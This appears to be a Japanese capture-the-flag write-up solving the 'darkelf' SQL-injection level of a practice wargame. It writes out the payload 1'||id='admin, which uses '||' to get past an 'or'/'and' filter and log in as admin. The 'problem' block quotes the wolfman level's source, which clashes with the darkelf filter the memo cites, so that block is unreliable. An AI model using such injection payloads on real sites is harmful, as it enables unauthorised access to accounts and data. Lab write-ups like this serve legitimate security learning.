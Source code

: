 # darkelf

## answer

```
https://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=1%27%7C%7Cid=%27admin
```

## problem

```
query : select id from prob_wolfman where id='guest' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

## memo

寝起きで早朝に取り組んでいる。

さて、試しに、

```
https://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=1
```

とすると

```
query : select id from prob_darkelf where id='guest' and pw='1'
```

となった。

コードを読んでいく。

```
if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
```

とあるので、orとand、ORとANDは禁止されている。

昨日もこれを使った気がするが、orの代わりに||を使ってみる。

```
if($result['id'] == 'admin') solve("darkelf"); 
```

クリア条件はこれなので、

```
?pw=1'||id='admin
```

これでいけた。

```
https://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=1%27%7C%7Cid=%27admin
```

```
query : select id from prob_darkelf where id='guest' and pw='1'||id='admin'
```

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)